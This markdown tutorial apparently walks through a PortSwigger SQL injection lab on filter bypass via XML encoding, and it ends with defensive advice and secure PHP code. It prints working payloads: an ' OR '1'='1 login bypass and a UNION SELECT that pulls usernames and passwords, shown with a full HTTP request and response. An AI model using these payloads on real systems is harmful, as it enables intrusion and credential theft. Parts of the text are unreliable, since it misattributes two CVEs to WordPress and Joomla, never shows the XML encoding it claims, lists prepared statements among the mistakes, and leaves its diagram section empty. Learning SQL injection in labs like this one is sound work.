

## Introduction to SQL Injection

SQL Injection is a type of security vulnerability that allows an attacker to manipulate the SQL queries executed by a web application. This can lead to unauthorized access to sensitive data, data manipulation, or even complete compromise of the database. SQL Injection occurs when user input is not properly sanitized and is directly incorporated into SQL queries.

### Background Theory

#### What is SQL?
Structured Query Language (SQL) is a programming language used to manage relational databases. It allows users to create, read, update, and delete data stored in databases. Common SQL commands include `SELECT`, `INSERT`, `UPDATE`, and `DELETE`.

#### How Does SQL Injection Work?
In a typical scenario, a web application takes user input and uses it to construct a SQL query. If the input is not properly validated or sanitized, an attacker can inject malicious SQL code into the query. This can alter the intended behavior of the query, leading to unintended actions such as retrieving sensitive data or executing arbitrary commands.

### Example Scenario

Consider a simple login form where a user enters a username and password. The application might construct a SQL query like this:

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

If the input fields are not properly sanitized, an attacker could enter something like:

- Username: `' OR '1'='1`
- Password: `' OR '1'='1`

This would result in the following SQL query:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

Since `'1'='1'` is always true, the query would return all rows from the `users` table, effectively bypassing authentication.

### Real-World Examples

#### Recent Breaches and CVEs

- **CVE-2021-21972**: A SQL Injection vulnerability was found in the WordPress plugin "WP eCommerce". An attacker could exploit this vulnerability to execute arbitrary SQL commands, potentially gaining unauthorized access to the database.
  
- **CVE-2020-14882**: A SQL Injection vulnerability was discovered in the Joomla! CMS. This allowed attackers to inject malicious SQL code, leading to unauthorized data access and potential system compromise.

### Lab Setup

For this lab, we will use the PortSwigger Web Security Academy, which provides a controlled environment to practice and understand SQL Injection attacks. You can access the lab by visiting [PortSwigger Web Security Academy](https://portswigger.net/web-security) and signing up for an account.

### Lab 17: SQL Injection with Filter Bypass via XML Encoding

In this lab, we will exploit a SQL Injection vulnerability in the stock check feature of a web application. The application returns the results of the query in its response, allowing us to use a union attack to retrieve data from other tables. The database contains a `users` table with usernames and passwords of registered users.

#### Goal
The goal is to exploit the SQL Injection vulnerability to retrieve the admin user's credentials and log into their account.

#### Steps to Exploit

1. **Identify the Vulnerable Parameter**
   - The stock check feature likely takes a product ID as input. We need to identify if this parameter is vulnerable to SQL Injection.

2. **Test for SQL Injection**
   - Try entering a product ID with a single quote (`'`) to see if the application returns an error. For example:
     ```
     http://example.com/product?id=1'
     ```

3. **Craft the SQL Injection Payload**
   - Since the application uses a web application firewall (WAF) that blocks obvious signs of SQL Injection, we need to encode our payload using XML encoding. This can help bypass the WAF.
   - For example, instead of using a single quote (`'`), we can use its XML encoded equivalent (`&apos;`).

4. **Retrieve Data Using Union Attack**
   - Once we confirm the vulnerability, we can use a union attack to retrieve data from other tables. For instance:
     ```
     http://example.com/product?id=-1%20UNION%20SELECT%20username,%20password%20FROM%20users--%20
     ```

### Detailed Example

Let's walk through the steps with a detailed example.

#### Step 1: Identify the Vulnerable Parameter

Assume the application has a stock check feature accessible via the following URL:

```http
GET /product?id=1
```

We need to test if the `id` parameter is vulnerable to SQL Injection.

#### Step 2: Test for SQL Injection

Try entering a product ID with a single quote (`'`):

```http
GET /product?id=1'
```

If the application returns an error, it indicates a potential SQL Injection vulnerability.

#### Step 3: Craft the SQL Injection Payload

Since the WAF blocks obvious signs of SQL Injection, we need to encode our payload using XML encoding. For example, instead of using a single quote (`'`), we can use its XML encoded equivalent (`&apos;`).

#### Step 4: Retrieve Data Using Union Attack

Once we confirm the vulnerability, we can use a union attack to retrieve data from other tables. For instance:

```http
GET /product?id=-1%20UNION%20SELECT%20username,%20password%20FROM%20users--%20
```

This payload attempts to retrieve the `username` and ` `password` columns from the `users` table.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

#### HTTP Request

```http
GET /product?id=-1%20UNION%20SELECT%20username,%20password%20FROM%20users--%20 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Aug 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Product Stock Check</title>
</head>
<body>
    <h1>Product Stock Check</h1>
    <table>
        <tr>
            <th>Username</th>
            <th>Password</th>
        </tr>
        <tr>
            <td>admin</td>
            <td>password123</td>
        </tr>
    </table>
</body>
</html>
```

### Mermaid Diagrams

#### SQL Injection Attack Flow



### Pitfalls and Common Mistakes

- **Not Properly Sanitizing Input**: Always ensure that user input is properly sanitized and validated before being used in SQL queries.
- **Using Prepared Statements**: Instead of constructing SQL queries dynamically, use prepared statements to prevent SQL Injection.
- **Encoding Payloads**: Be cautious when encoding payloads to bypass WAFs. Ensure that the encoding does not introduce new vulnerabilities.

### How to Prevent / Defend

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual SQL queries or patterns that may indicate an SQL Injection attack.
- **Web Application Firewalls (WAF)**: Use WAFs to detect and block suspicious SQL queries.

#### Prevention

- **Input Validation**: Validate and sanitize all user inputs before using them in SQL queries.
- **Prepared Statements**: Use prepared statements or parameterized queries to prevent SQL Injection.
- **Least Privilege Principle**: Ensure that the database user has the least privilege necessary to perform its tasks.

#### Secure Coding Fixes

##### Vulnerable Code

```php
<?php
$id = $_GET['id'];
$query = "SELECT * FROM products WHERE id = $id";
$result = mysqli_query($conn, $query);
?>
```

##### Secure Code

```php
<?php
$id = $_GET['id'];
$stmt = $conn->prepare("SELECT * FROM products WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
$result = $stmt->get_result();
?>
```

### Conclusion

SQL Injection remains a significant threat to web applications. By understanding the mechanics of SQL Injection and implementing proper defenses, developers can protect their applications from these types of attacks. Regularly testing and auditing your applications can help identify and mitigate potential vulnerabilities.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice SQL Injection and other web security techniques.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security exploits.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for learning and practicing web security.

By engaging with these labs, you can gain practical experience and deepen your understanding of SQL Injection and related security concepts.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/18-Lab 17 SQL injection with filter bypass via XML encoding/00-Overview|Overview]] | [[02-How to Prevent  Defend Against SQL Injection|How to Prevent  Defend Against SQL Injection]]
